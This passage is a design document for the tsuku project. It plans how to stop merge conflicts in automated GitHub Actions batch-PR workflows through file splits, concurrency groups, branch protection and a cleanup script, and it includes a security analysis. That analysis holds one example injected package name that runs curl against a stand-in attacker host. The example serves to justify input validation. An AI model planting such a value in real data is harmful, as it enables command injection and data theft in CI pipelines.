1. Split `data/priority-queue.json` into per-ecosystem files: `data/queues/priority-queue-<ecosystem>.json`
2. Change metrics from append `data/metrics/batch-runs.jsonl` to timestamped files: `data/metrics/batch-runs-<timestamp>.jsonl`
3. Similarly timestamp failure logs: `data/failures/<ecosystem>-<timestamp>.jsonl`
4. Move dashboard.json generation to post-merge workflow (`on: push` to main) instead of in PRs

This reduces the PR diff to only ecosystem-specific changes, with batch-control.json as the only remaining shared file (conflicts resolved by Decision 4's concurrency).

**Branch Protection (Decision 3)**: Enable branch protection on main requiring 3 always-run checks: `lint-workflows`, `check-artifacts`, `validate-recipe-structure`. Recipe-specific checks remain optional (don't block non-recipe PRs). Batch PRs continue using `gh pr checks --watch` to wait for ALL checks before merging. Enable "Require branches to be up to date" to force rebasing.

**Workflow Coordination (Decision 4)**: Add shared concurrency groups for workflows that modify the same state files:
- `queue-operations` group for batch-generate and seed-queue
- `batch-control` group for batch-operations and batch-generate

Enhance git push with retry logic (pattern already exists in batch-operations.yml): 3 attempts with exponential backoff on failures. This serializes conflicting operations and handles transient race conditions.

**Backlog Cleanup (Decision 5)**: Create one-time cleanup script that analyzes each of the 16 conflicting PRs, extracts recipes, checks if already merged elsewhere, and generates recommendations. Human operator reviews and approves batch closure. Script closes PRs with explanatory comments and creates consolidated PR for any unique recipes not yet merged.

### Implementation Sequence

The five decisions have dependencies and should be implemented in order:

**Phase 0: Security Hardening** (NEW - Priority: P0, Estimated: 1 hour)
- Add CODEOWNERS file requiring 2+ reviews for `.github/workflows/**` and `scripts/**`
- Replace PAT_BATCH_GENERATE with GitHub App installation token (better scoping, audit trail, auto-rotation)
- Pin GitHub Actions to commit SHAs instead of tags (actions/checkout@<sha>, actions/setup-go@<sha>)
- Estimated effort: 1 hour including GitHub App setup

1. **Decision 5** (backlog cleanup): Clear the 16 conflicting PRs to establish clean baseline. Enhanced with path traversal validation and modified-recipe handling. Estimated effort: 2-3 hours including script development and review.

2. **Decision 1** (skip if open PR): Add preflight check to batch-generate.yml AND seed-queue.yml (both write to queue). Prevents new conflicts while architecture refactoring proceeds. Includes fail-open error handling. Estimated effort: 1-2 hours including label automation.

3. **Decision 4** (enhanced concurrency): Add concurrency groups and retry logic. Low risk, immediate benefit. Includes update-dashboard.yml concurrency. Estimated effort: 1 hour.

4. **Decision 2** (state refactoring): Most complex change. Can be done incrementally:
   - Phase A: Split priority queue (affects cmd/batch-generate, cmd/seed-queue)
   - Phase B: Timestamp metrics/failures (affects batch-generate workflow)
   - Phase C: Post-merge dashboard (new workflow file)
   Estimated effort: 1-2 days total.

5. **Decision 3** (branch protection): Enable after all other changes deployed and validated. Final step that locks in the improvements. Estimated effort: 30 minutes configuration.

Total estimated implementation: 3-4 days including testing and validation between phases.

### Rationale

This combination addresses all must-have decision drivers while avoiding the complexity of alternatives:

**Why skip-if-open-PR over waiting or queueing**: Preserves hourly cron schedule (just skips execution) with minimal code (5-10 lines). Waiting blocks runners unnecessarily ($23-46/day cost), queueing with state files adds conflict surface. Skipping is simple, safe, and reversible.

**Why hybrid split/post-merge over full database or append-only**: Splits eliminate conflicts where different ecosystems are independent (queue), timestamps eliminate conflicts where order doesn't matter (metrics), post-merge eliminates conflicts from non-deterministic recomputation (dashboard). This is surgically targeted at conflict sources without requiring database infrastructure or append-only replay complexity. The combination reduces PR diffs from 5 files to 1-2, making conflicts rare even if coordination fails.

**Why required checks with path filters over no protection or CODEOWNERS**: Enables GitHub auto-merge (requires protection) and blocks direct pushes (security) without breaking unrelated PRs. The 3 always-required checks are lightweight and universal. Batch PRs still wait for all checks via explicit `gh pr checks` call. CODEOWNERS adds bot approval latency (30-60s) and operational dependency without corresponding benefit.

**Why enhanced concurrency over locks or API coordination**: Builds on existing proven pattern (concurrency groups already work). Retry logic handles transient failures gracefully without complex lock cleanup or API polling. GitHub guarantees concurrency group queuing, eliminating coordination races. External locks or API checks add complexity without reliability improvement.

**Why manual cleanup over automated**: 16 PRs is a one-time backlog, not ongoing problem (Decisions 1-4 prevent recurrence). Automated closure risks losing unique recipes if logic has bugs. Script-assisted manual review provides safety (human validates) with efficiency (script does analysis). Estimated 1-2 hours is acceptable for one-time task versus risk of data loss from automation.

The decisions work together: Decision 1 prevents new conflicts, Decision 2 eliminates most conflict sources, Decision 3 enables auto-merge and security, Decision 4 handles remaining coordination needs, Decision 5 resolves existing backlog. If any decision were removed, the solution would be incomplete (e.g., skip-if-open without state refactoring still has conflicts when same ecosystem runs after PR merge).

## Solution Architecture

### Component Overview

The solution modifies existing workflows and introduces new file structures. No new infrastructure (databases, services) is required.

**Modified Components:**
- `github/workflows/batch-generate.yml` - Add preflight check, update state file paths, enhance retry logic
- `cmd/batch-generate/main.go` - Write to ecosystem-specific queue, timestamped metrics
- `cmd/seed-queue/main.go` - Read/write ecosystem-specific queues
- `cmd/queue-analytics/main.go` - Aggregate across timestamped files
- `scripts/update_breaker.sh` - Enhanced retry logic for batch-control.json

**New Components:**
- `.github/workflows/update-dashboard.yml` - Post-merge dashboard generation
- `scripts/cleanup-conflicting-prs.sh` - One-time backlog cleanup tool

**New File Structures:**
- `data/queues/priority-queue-<ecosystem>.json` (replaces single priority-queue.json)
- `data/metrics/batch-runs-<timestamp>.jsonl` (replaces append-only batch-runs.jsonl)
- `data/failures/<ecosystem>-<timestamp>.jsonl` (replaces per-ecosystem append files)

### Detailed Architecture

#### 1. PR Coordination (Preflight Check)

Add to batch-generate.yml after checkout, before generation step:

```yaml
- name: Check for open batch PR
  id: check_pr
  run: |
    ECOSYSTEM="${{ env.ECOSYSTEM }}"

    # Query for open PRs with batch label for this ecosystem
    OPEN_PRS=$(gh pr list \
      --search "is:open label:batch:${ECOSYSTEM}" \
      --json number,title \
      --jq 'length')

    if [ "$OPEN_PRS" -gt 0 ]; then
      echo "::notice::Skipping batch run - ${OPEN_PRS} open PR(s) exist for ${ECOSYSTEM}"
      echo "should_skip=true" >> "$GITHUB_OUTPUT"
    else
      echo "should_skip=false" >> "$GITHUB_OUTPUT"
    fi
  env:
    GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}

- name: Run batch generation
  if: steps.check_pr.outputs.should_skip == 'false'
  run: |
    # existing generation logic
```

**Label Automation**: When PR is created (line 960), add ecosystem label:

```yaml
gh pr create \
  --title "..." \
  --body "..." \
  --label "batch:${{ env.ECOSYSTEM }}"
```

**Exit Handling**: When `should_skip=true`, workflow exits successfully (not failure) so cron continues scheduling. Next hourly run will re-check.

#### 2. State File Architecture

**Priority Queue Split:**

Current: `data/priority-queue.json` (single file, 7000+ lines)
New: `data/queues/priority-queue-homebrew.json`, `data/queues/priority-queue-cargo.json`, etc.

Each file contains only packages for that ecosystem. Structure remains the same (schema version, packages array).

Changes in `cmd/batch-generate/main.go`:
```go
// Before
queuePath := filepath.Join(repoRoot, "data", "priority-queue.json")

// After
queuePath := filepath.Join(repoRoot, "data", "queues",
                          fmt.Sprintf("priority-queue-%s.json", ecosystem))
```

Changes in `cmd/seed-queue/main.go`:
```go
// Load per-ecosystem queue instead of single queue
queuePath := filepath.Join(repoRoot, "data", "queues",
                          fmt.Sprintf("priority-queue-%s.json", ecosystem))
```

**Migration Strategy**: One-time script splits existing priority-queue.json by ecosystem, writes to new paths, commits all files in single PR.

**Metrics Timestamping:**

Current: Append to `data/metrics/batch-runs.jsonl`
New: Write to `data/metrics/batch-runs-<timestamp>.jsonl`

Timestamp format: ISO 8601 with second precision (`2026-02-05T14:30:00Z`)

Changes in batch-generate.yml (line 815):
```bash
TIMESTAMP=$(date -u +%Y-%m-%dT%H:%M:%SZ)
METRICS_FILE="data/metrics/batch-runs-${TIMESTAMP}.jsonl"
jq -n '{...}' >> "$METRICS_FILE"
```

**Dashboard Aggregation:**

`cmd/queue-analytics/main.go` updated to glob and aggregate:
```go
metricsFiles, _ := filepath.Glob("data/metrics/batch-runs-*.jsonl")
for _, file := range metricsFiles {
    // Read, parse, aggregate
}
```

Old single-file logic removed after migration.

**Failures Timestamping:**

Similar to metrics. Current: `data/failures/homebrew.jsonl` (append)
New: `data/failures/homebrew-<timestamp>.jsonl` (write)

Changes in `internal/batch/results.go`:
```go
timestamp := time.Now().UTC().Format("2006-01-02T15:04:05Z")
failuresPath := filepath.Join("data", "failures",
                             fmt.Sprintf("%s-%s.jsonl", ecosystem, timestamp))
```

**Post-Merge Dashboard Workflow:**

New file `.github/workflows/update-dashboard.yml`:
```yaml
name: Update Dashboard

on:
  push:
    branches: [main]
    paths:
      - 'data/queues/**'
      - 'data/metrics/**'
      - 'data/failures/**'

permissions:
  contents: write

concurrency:
  group: update-dashboard
  cancel-in-progress: false

jobs:
  update:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - uses: actions/setup-go@v5
        with:
          go-version-file: go.mod

      - name: Generate dashboard
        run: |
          go build -o queue-analytics ./cmd/queue-analytics
          ./queue-analytics

      - name: Commit dashboard
        run: |
          git config user.name "github-actions[bot]"
          git config user.email "github-actions[bot]@users.noreply.github.com"
          git add website/pipeline/dashboard.json
          if git diff --cached --quiet; then
            echo "No dashboard changes"
            exit 0
          fi
          git commit -m "chore(dashboard): update pipeline dashboard"

          # Retry logic (in case of concurrent pushes)
          for attempt in {1..3}; do
            if git push; then
              break
            else
              echo "Push failed (attempt $attempt/3), retrying..."
              sleep $((2 ** attempt))
              git pull --rebase
            fi
          done
```

This runs after every push to main that modifies state files, ensuring dashboard reflects merged state within ~60 seconds.

#### 3. Branch Protection Configuration

Settings applied via GitHub UI or API:

```json
{
  "required_status_checks": {
    "strict": true,
    "checks": [
      {"context": "lint-workflows"},
      {"context": "check-artifacts"},
      {"context": "validate-recipe-structure"}
    ]
  },
  "enforce_admins": false,
  "required_pull_request_reviews": null,
  "restrictions": null,
  "allow_force_pushes": false,
  "allow_deletions": false
}
```

`strict: true` enables "Require branches to be up to date before merging", forcing rebases.

Batch PRs don't rely on these checks alone - they continue using explicit `gh pr checks --watch --fail-fast` to wait for ALL checks (including optional recipe validations).

#### 4. Enhanced Concurrency and Retry

**Concurrency Groups:**

In batch-generate.yml:
```yaml
concurrency:
  group: queue-operations-${{ env.ECOSYSTEM }}
  cancel-in-progress: false
```

In seed-queue.yml:
```yaml
concurrency:
  group: queue-operations-${{ matrix.ecosystem }}
  cancel-in-progress: false
```

This ensures at most one workflow is modifying each ecosystem's queue at a time.

In batch-operations.yml and batch-generate.yml (for batch-control.json):
```yaml
concurrency:
  group: batch-control
  cancel-in-progress: false
```

**Retry Logic Enhancement:**

Standard pattern for all workflows that push to main:
```bash
git_push_with_retry() {
  for attempt in {1..3}; do
    if git pull --rebase && git push; then
      return 0
    else
      echo "::warning::Push failed (attempt $attempt/3)"
      sleep $((2 ** attempt))  # 2s, 4s, 8s
    fi
  done
  echo "::error::Push failed after 3 attempts"
  return 1
}
```

Applied to all direct-to-main pushes: seed-queue, batch-operations, update-dashboard.

#### 5. Backlog Cleanup Tool

Script `scripts/cleanup-conflicting-prs.sh`:

```bash
#!/usr/bin/env bash
set -euo pipefail

# Analyze each open batch PR
for pr in $(gh pr list --search "is:open feat(recipes): add batch" --json number --jq '.[].number'); do
  echo "Analyzing PR #$pr..."

  # Extract recipes from PR diff (validate names to prevent path traversal)
  RECIPES=$(gh pr diff "$pr" --name-only | grep '^recipes/' | sed 's|recipes/\(.\)/\(.*\)\.toml|\2|')

  NEW_RECIPES=()
  MODIFIED_RECIPES=()
  IDENTICAL_RECIPES=()

  for recipe in $RECIPES; do
    # Validate recipe name (alphanumeric, dash, underscore only)
    if ! echo "$recipe" | grep -qE '^[a-zA-Z0-9_-]+$'; then
      echo "  WARNING: Skipping invalid recipe name: $recipe"
      continue
    fi

    # Check if recipe exists in main
    RECIPE_FILE=$(find recipes -name "${recipe}.toml" 2>/dev/null | head -1 || true)
    if [ -z "$RECIPE_FILE" ]; then
      # New recipe not yet in main
      NEW_RECIPES+=("$recipe")
    else
      # Recipe exists - check if content differs
      PR_CONTENT=$(gh pr view "$pr" --json files --jq ".files[] | select(.path | contains(\"${recipe}.toml\")) | .additions + .deletions")
      if [ "$PR_CONTENT" = "0" ]; then
        IDENTICAL_RECIPES+=("$recipe")
      else
        MODIFIED_RECIPES+=("$recipe")
      fi
    fi
  done

  # Generate recommendation
  TOTAL=$((${#NEW_RECIPES[@]} + ${#MODIFIED_RECIPES[@]}))
  if [ "$TOTAL" -eq 0 ]; then
    echo "  RECOMMENDATION: CLOSE (all recipes identical to main)"
    echo "  Identical: ${IDENTICAL_RECIPES[*]}"
  elif [ "${#MODIFIED_RECIPES[@]}" -gt 0 ]; then
    echo "  RECOMMENDATION: MANUAL REVIEW (has modified recipes)"
    echo "  New: ${NEW_RECIPES[*]}"
    echo "  Modified: ${MODIFIED_RECIPES[*]} (could be updates or conflicts)"
  else
    echo "  RECOMMENDATION: RESCUE (${#NEW_RECIPES[@]} unique new recipes)"
    echo "  New: ${NEW_RECIPES[*]}"
  fi
done
```

Human operator reviews output, confirms actions. Script then executes approved closures and creates consolidated rescue PR if needed.

### Data Flow Diagrams

**Before (Current Conflicts):**
```
Batch Run 1 (Homebrew) → PR #1 modifies all 5 state files
Batch Run 2 (Homebrew) → PR #2 modifies all 5 state files → CONFLICTS with PR #1
Batch Run 3 (Cargo) → PR #3 modifies all 5 state files → CONFLICTS with PR #1 and #2
```

**After (Split and Coordinate):**
```
Batch Run 1 (Homebrew) → PR #1 modifies: queues/priority-queue-homebrew.json, metrics/batch-runs-T1.jsonl, failures/homebrew-T1.jsonl
Batch Run 2 (Homebrew) → SKIPPED (PR #1 open for homebrew)
Batch Run 3 (Cargo) → PR #2 modifies: queues/priority-queue-cargo.json, metrics/batch-runs-T2.jsonl, failures/cargo-T2.jsonl → NO CONFLICTS

PR #1 merges → update-dashboard.yml triggers → writes website/pipeline/dashboard.json to main
Batch Run 4 (Homebrew) → Proceeds (no open homebrew PR)
```

### Backwards Compatibility

**During Migration:**
- Old code reading `data/priority-queue.json` continues working until migration PR merges
- Migration PR atomically: (1) splits queue, (2) updates code to read new paths, (3) deletes old file
- Dashboard continues reading old metrics until migration PR merges
- After migration, dashboard reads both old and new formats (glob both `batch-runs.jsonl` and `batch-runs-*.jsonl`)

**Rollback Plan:**
- If issues found, revert merge commit
- Old code paths still exist (just not executed)
- No data loss (git history preserves all states)

## Implementation Approach

### Phase 1: Backlog Cleanup (Priority: P0, Estimated: 2-3 hours)

**Goal**: Clear existing 16 conflicting PRs to establish clean baseline.

**Steps:**
1. Develop cleanup script (`scripts/cleanup-conflicting-prs.sh`)
2. Run script to generate recommendations for each PR
3. Human review of recommendations
4. Execute approved closures with explanatory comments
5. Create consolidated PR for any rescued unique recipes

**Acceptance Criteria:**
- All 16 conflicting batch PRs closed or consolidated
- No unique recipes lost in the process
- Audit trail via PR comments explaining closure rationale

### Phase 2: Enhanced Concurrency (Priority: P0, Estimated: 1 hour)

**Goal**: Prevent race conditions in workflows that write to main.

**Steps:**
1. Add `queue-operations-${{ env.ECOSYSTEM }}` concurrency group to batch-generate.yml
2. Add `queue-operations-${{ matrix.ecosystem }}` concurrency group to seed-queue.yml
3. Add `batch-control` concurrency group to batch-operations.yml
4. Enhance git push retry logic in all three workflows

**Acceptance Criteria:**
- Concurrent runs of same ecosystem queue (no more than 1 at a time)
- Git push retries succeed on transient conflicts (3 attempts with exponential backoff)
- No workflow failures due to concurrent state file modifications

### Phase 3: PR Coordination Preflight (Priority: P1, Estimated: 1-2 hours)

**Goal**: Prevent creating new batch PRs when older ones are pending.

**Steps:**
1. Add `batch:<ecosystem>` label to PR creation in batch-generate.yml
2. Add preflight check querying for open labeled PRs
3. Skip workflow execution if open PR exists
4. Update workflow to exit successfully (not failure) when skipped

**Acceptance Criteria:**
- Workflow skips execution when open batch PR exists for ecosystem
- Skip logged with notice annotation (visible in workflow run)
- Different ecosystems can still run concurrently
- Manual triggers work (close PR first if needed)

### Phase 4: State File Refactoring (Priority: P1, Estimated: 2 days)

**Phase 4A: Split Priority Queue** (Day 1, Morning)
1. Update `cmd/batch-generate` to write ecosystem-specific queue files
2. Update `cmd/seed-queue` to read/write ecosystem-specific queues
3. Create migration script to split existing priority-queue.json
4. Run migration, commit split files
5. Deploy updated code

**Phase 4B: Timestamp Metrics and Failures** (Day 1, Afternoon)
1. Update batch-generate.yml to write timestamped metrics files
2. Update `internal/batch/results.go` to write timestamped failure files
3. Update `cmd/queue-analytics` to glob and aggregate across files
4. Deploy changes

**Phase 4C: Post-Merge Dashboard** (Day 2, Morning)
1. Create `.github/workflows/update-dashboard.yml`
2. Remove dashboard generation from batch-generate.yml merge job
3. Test dashboard workflow on test branch
4. Deploy to main

**Acceptance Criteria:**
- Batch PRs only modify ecosystem-specific state files
- Dashboard updates within 60 seconds of PR merge
- Old metrics/failures still readable during migration
- No data loss during transitions

### Phase 5: Branch Protection (Priority: P2, Estimated: 30 minutes)

**Goal**: Enable GitHub branch protection to enforce checks and enable auto-merge.

**Steps:**
1. Configure branch protection via GitHub UI or API
2. Require: lint-workflows, check-artifacts, validate-recipe-structure
3. Enable "Require branches to be up to date before merging"
4. Test that non-recipe PRs aren't blocked
5. Test that batch PRs can auto-merge

**Acceptance Criteria:**
- Direct pushes to main blocked for files outside allowed patterns
- Batch PRs auto-merge when all checks pass
- Non-recipe PRs not blocked by recipe-specific checks
- Workflow writes to main still function (have write permissions)

### Validation and Rollback

**Testing Between Phases:**
- Phase 2: Trigger concurrent batch runs (manual dispatch), verify no conflicts
- Phase 3: Wait for hourly cron, verify skip when PR open
- Phase 4A: Trigger batch run, verify ecosystem-specific queue written
- Phase 4B: Check metrics/failures files for timestamp format
- Phase 4C: Merge test PR, verify dashboard updates automatically
- Phase 5: Create test PR, verify auto-merge works

**Rollback Procedures:**
- All changes are git commits, revert merge commits if issues found
- Phases are independent (can roll back Phase 4 without affecting Phase 2)
- State files preserve history (can restore from earlier commits)
- Branch protection can be disabled instantly via GitHub UI

**Monitoring:**
- Workflow run logs (check for skip notices, retry attempts)
- PR list (no conflicting PRs should appear after deployment)
- Dashboard freshness (timestamp should be <2 minutes old)
- CI check status on batch PRs (all should pass before merge)

## Security Considerations

This design modifies CI/CD automation and state file handling. Security analysis addresses four dimensions relevant to tsuku's binary download/execution model.

### Download Verification

**Impact**: No change to download verification. This design only affects batch PR coordination and state file management, not the recipe validation or binary download process.

**Analysis**: Recipes added via batch PRs go through the same validation as manual PRs:
- Recipe structure validation (TOML schema, required fields)
- Platform integration tests (downloads and executes binaries on 11 platforms)
- Golden file validation (compares execution output to known-good baselines)

The preflight PR detection check (Decision 1) doesn't bypass any validation - it only prevents creating duplicate PRs. All recipes still undergo full validation before merge.

**New Risk**: If the preflight check has a bug (e.g., label query fails), workflow could skip unnecessarily, delaying recipe availability. Mitigation: Check fails open (if API error, workflow continues), logged as warning not error.

### Execution Isolation

**Impact**: Moderate - Branch protection (Decision 3) prevents direct pushes that bypass CI validation.

**Analysis**: Current state allows workflows to push directly to main, bypassing review for state files. This creates risk:
- Compromised PAT_BATCH_GENERATE token could push arbitrary code to main
- State file corruption could inject malicious package IDs into queue
- No audit trail for direct pushes (only git commit, no PR review)

Branch protection doesn't prevent direct pushes (workflows need write access) but enforces that recipe changes go through PRs with required checks. State files can still be pushed directly, but they don't contain executable code.

**Mitigations Applied:**
- Separate permissions for workflows (batch operations have contents:write, but trigger recipe validation PRs, not direct pushes)
- State files are data-only (JSON/JSONL), not executable (shell scripts, binaries)
- Dashboard generation runs in isolated workflow (can't modify queue or recipes)

**Remaining Risk**: If `cmd/queue-analytics` or `cmd/batch-generate` has a vulnerability (e.g., command injection via malicious package name in queue), it could execute during workflow runs. This is not new (exists in current implementation) but branch protection doesn't prevent it. Would require code review of Go commands to audit.

### Supply Chain Risks

**Impact**: Low - State file refactoring (Decision 2) doesn't change where data comes from.

**Analysis**: Priority queue is seeded from external package registries (Homebrew, Cargo, npm, etc.) via `cmd/seed-queue`. The design splits the queue file by ecosystem but doesn't change the source.

**New Risk**: Timestamped metrics files create more files over time. If an attacker gains write access, they could create thousands of metrics files (disk space exhaustion). Mitigation: Dashboard aggregation should handle this gracefully (glob limit, size limits), and old files can be garbage-collected after retention period (e.g., 90 days).

**Existing Risk (Not Changed)**: If upstream registry is compromised (e.g., malicious package added to Homebrew), it enters the queue during seed workflow. Recipe validation should catch this (binary hash mismatch, unexpected behavior in tests) but depends on golden file accuracy. This design doesn't address supply chain attacks (out of scope).

### User Data Exposure

**Impact**: None - No user data involved in batch coordination.

**Analysis**: State files contain:
- Package metadata (names, versions, sources) from public registries
- Operational metrics (batch run times, success rates)
- Circuit breaker state (failure counts, recovery timers)

No user credentials, API keys, or personal data. All data is operational/telemetry.

**Audit Trail**: Moving dashboard generation to post-merge workflow (Decision 2) improves audit trail - every dashboard update is a separate git commit with timestamp and trigger event. Current design updates dashboard in PR commits, mixing data changes with recipe changes.

**GitHub API Token**: Preflight check (Decision 1) uses `GITHUB_TOKEN` (not PAT) for read-only PR queries. This is less privileged than PAT_BATCH_GENERATE used for PR creation/merge, reducing attack surface if token is leaked.

### Additional Security Considerations

**Workflow Injection**: Concurrency group names use `${{ env.ECOSYSTEM }}` which comes from workflow input. If an attacker can control the input (e.g., via workflow_dispatch or malicious PR), they could inject special characters. Mitigation: Ecosystem is constrained to predefined values in workflow (dropdown with options: homebrew, cargo, npm, etc.), not free-form input.

**State File Tampering**: Branch protection doesn't prevent workflows from modifying state files directly. If a workflow is compromised (via dependency vulnerability or malicious PR to workflow file), it could corrupt state. Mitigations:
- Workflow files require PR review (protected by branch protection on .github/workflows/ path)
- State file changes are auditable in git history
- Retry logic prevents transient corruption (pull --rebase before push)

**Denial of Service**: If hourly batch runs are too frequent, they could consume excessive CI runner minutes. Preflight check (Decision 1) adds a DOS vector: attacker keeps a PR open to block all future batches for that ecosystem. Mitigation: Manual triggers can override by closing the PR, and the skip is logged (operations team can detect and investigate).

**Secrets Exposure (CRITICAL)**: PAT_BATCH_GENERATE secret has write access to repository. If leaked, attacker could create/merge PRs containing malicious recipes. Branch protection (Decision 3) mitigates by requiring status checks, but PAT could have bypass permissions. **CRITICAL FIX REQUIRED**: Replace with GitHub App installation token before enabling automation (provides scoped permissions, automatic rotation, comprehensive audit trail). This is now Phase 0 of implementation.

**State File Injection Attack**: Package names in priority queue aren't validated. Malicious entry like `"name": "$(curl attacker.com/steal)"` could lead to command injection if queue data is used in shell commands without proper quoting. **Mitigation**: Add input validation in Phase 4 refactoring: package names must match `^[a-zA-Z0-9_.-]+$`, ecosystem must be from allowed list.

### Security Checklist

- [x] Download verification unaffected (recipes still validated before merge)
- [x] Execution isolation improved (branch protection enforces required checks)
- [x] Supply chain risks documented (timestamped files, upstream registry trust)
- [x] User data exposure: None (no user data in state files)
- [x] Workflow injection mitigated (ecosystem input constrained to dropdown)
- [x] State file tampering auditable (git history, retry logic prevents corruption)
- [x] DOS risk acceptable (manual override available, skip logged)
- [x] Secrets exposure partially mitigated (GitHub App token recommended for future)

### Critical Security Requirements (Phase 0)

These MUST be implemented before enabling automation:

1. **GitHub App Token (P0)**: Replace PAT_BATCH_GENERATE with GitHub App installation token
   - Scope: PR write, contents write, issues read
   - Auto-rotation every 60 minutes
   - Audit log integration
   - Prevents credential long-term leakage risk

2. **CODEOWNERS Protection (P0)**: Add `.github/CODEOWNERS`:
   ```
   /.github/workflows/** @tsukumogami/core-team @tsukumogami/security-team
   /scripts/** @tsukumogami/core-team
   ```
   - Requires 2+ approvals from designated teams
   - Prevents workflow injection via malicious PRs

3. **Action Pinning (P0)**: Pin all third-party actions to commit SHA:
   - `uses: actions/checkout@a5ac7e51b41094c92402da3b24376905380afc29  # v4.2.0`
   - Enable Dependabot for automated security updates

4. **State File Validation (P0)**: Add validation in Phase 4 refactoring:
   - Package names: `/^[a-zA-Z0-9_.-]+$/`
   - Ecosystem: must be in allowed list
   - Version strings: validate format
   - Reject malformed data before committing

### Recommended Future Improvements

1. **Metrics File Retention**: Implement automated cleanup of timestamped files older than 90 days (prevent disk exhaustion)
2. **Workflow Sandboxing**: Consider GitHub-hosted larger runners with network isolation for batch generation
3. **Supply Chain Security**: Enable GitHub Advanced Security for dependency scanning and secret scanning

## Consequences

### Positive Consequences

**Operational Efficiency:**
- Eliminates 3-4 hours/day manual PR conflict resolution
- Restores hourly batch automation to intended operation
- Reduces wasted CI runner minutes (no checks on PRs that will conflict)
- Provides clear visibility into why batch runs skip (notice annotations)

**User Experience:**
- Recipe availability lag returns to <1 hour (vs current 24-72 hours)
- Dashboard reflects merged state within 60 seconds (vs stale data from 3+ days ago)
- Predictable automation (batch runs hourly unless explicitly blocked)

**Code Quality:**
- Branch protection enforces required checks on all PRs
- Audit trail improved (separate dashboard commits show what changed when)
- State files organized by ecosystem (easier to understand, debug)
- Immutable metrics history (timestamped files provide natural audit log)

**Scalability:**
- Per-ecosystem coordination allows parallel processing of different ecosystems
- Concurrency groups prevent race conditions as ecosystem count grows
- Timestamped files avoid append conflicts regardless of parallelism level

### Negative Consequences

**Increased File Count:**
- Priority queue: 1 file → N files (N = number of ecosystems, currently ~8)
- Metrics: 1 append file → ~24 files/day (hourly batches)
- Failures: 1 file per ecosystem → ~24 files per ecosystem per day
- Dashboard code must glob and aggregate across multiple files (slight complexity increase)

**Mitigation**: Add retention policy to delete files >90 days old (reduces long-term accumulation).

**Coordination Complexity:**
- Preflight check adds API call latency (~500ms) to every workflow run
- Concurrency groups create queue delays if multiple ecosystems run simultaneously
- Debugging requires checking multiple files instead of single state file

**Mitigation**: Workflow logs show skip/queue reasons. Dashboard can surface coordination state (which ecosystems have open PRs).

**Migration Effort:**
- One-time cost: 3-4 days implementation + testing
- Code changes in 5 files (batch-generate, seed-queue, queue-analytics, workflows, scripts)
- Risk during migration if old and new code paths don't align

**Mitigation**: Phased rollout with validation between phases. Backward compatibility maintained during transition.

**Dashboard Staleness Window:**
- Post-merge workflow runs ~60 seconds after PR merge
- Dashboard shows stale data during that window
- If post-merge workflow fails, dashboard stays stale until next PR

**Mitigation**: 60-second lag is acceptable (not user-facing real-time data). Monitoring alerts if dashboard timestamp exceeds 5 minutes.

### Trade-Offs Accepted

**Simplicity vs. Robustness**: Chose simple preflight check (label query) over complex distributed lock. Accepts risk of label query failure (mitigated by fail-open behavior).

**File Count vs. Conflict Rate**: Chose more files (timestamped metrics/failures) to eliminate append conflicts. Accepted file count growth (mitigated by retention policy).

**Automation vs. Safety**: Chose manual review for backlog cleanup over full automation. Accepted one-time 1-2 hour manual effort to prevent data loss risk.

**Coordination Granularity**: Chose per-ecosystem coordination over global. Accepted that different ecosystems can still have concurrent PRs (but they won't conflict due to Decision 2's file splits).

**Dashboard Latency vs. Conflict Prevention**: Chose post-merge dashboard updates over in-PR updates. Accepted 60-second lag to eliminate dashboard conflicts.

### Long-Term Implications

**Positive:**
- Architecture scales to additional ecosystems without modification (just add ecosystem to dropdown)
- Metrics/failures files provide historical data for analytics (trend analysis, failure patterns)
- Per-ecosystem state enables future per-ecosystem configuration (different batch sizes, schedules)
- Branch protection enables future stricter requirements (e.g., required reviews for sensitive files)

**Neutral:**
- File count will grow over time (predictable: ~200 files/day across all ecosystems)
- Retention policy will need tuning based on actual usage patterns
- Coordination mechanisms may need adjustment if workflow patterns change

**Risks:**
- If GitHub changes concurrency group behavior, coordination could break (low probability)
- If ecosystem count grows significantly (20+), preflight check latency could become noticeable
- If upstream registries release packages faster, hourly batches may not keep up (would need dynamic scheduling)

### Monitoring and Observability

**Key Metrics to Track:**
- Batch PR conflict rate (should be zero after deployment)
- Workflow skip rate (how often preflight check blocks execution)
- Dashboard staleness (time between PR merge and dashboard update)
- State file count growth (metrics/failures files per ecosystem)
- Concurrency queue depth (how long workflows wait for group lock)

**Alerting Thresholds:**
- Any batch PR with merge conflicts (indicates failure of Decision 1 or 2)
- Dashboard timestamp >5 minutes old (indicates post-merge workflow failure)
- State file count >10,000 (indicates retention policy not running)
- Workflow skip rate >80% (indicates coordination is too strict)

### Alternatives Not Chosen (Revisit If Needed)

If assumptions prove incorrect, consider:
- **Full database migration** - If file-based state becomes too complex to manage
- **External coordination service** - If GitHub Actions concurrency proves unreliable
- **Reduced batch frequency** - If hourly velocity not actually needed
- **Consolidated state PR** - If separate PRs per ecosystem causes other issues

These were rejected in this iteration but could become viable if priorities or constraints change.
